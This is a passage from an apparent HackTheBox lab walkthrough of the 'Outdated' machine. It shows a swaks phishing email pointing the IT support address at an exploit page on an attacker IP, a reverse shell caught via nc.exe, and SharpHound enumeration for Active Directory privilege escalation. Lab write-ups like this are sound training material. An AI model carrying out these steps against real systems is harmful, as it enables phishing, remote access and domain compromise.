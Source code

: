 ```
$ swaks --to itsupport@outdated.htb --from "test@test.com" --header "Subject: Web App" --body "http://10.10.14.13/exploit.html"
```

After waiting for a little bit, we should get a hit on both HTTP servers (one for exploit, one for

`nc.exe`) and get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (7) (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't grab the user flag yet, so let's look around.&#x20;

### Shadow Credentials&#x20;

We didn't have much privileges or access to files on the machine, so let's use Bloodhound to map the domain out and view the privileges that we have. In this case, we have to download `SharpHound.exe` onto the machine and get the files:

```
C:\Users\btables>.\SharpHound.exe
C:\Users\btables>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9EA0-5B4E

 Directory of C:\Users\btables

05/11/2023  02:11 AM    <DIR>          .
05/11/2023  02:11 AM    <DIR>          ..
05/11/2023  02:11 AM            11,682 20230511021146_BloodHound.zip
```

Then we just need to transfer this file over to our machine via `copy`. Afterwards, start `neo4j` and `bloodhound`, then upload the data. We can find the privilege escalation vector here:

<figure><img src="../../../.gitbook/assets/image (8) (9) (1).png" alt=""><figcaption></figcaption></figure>
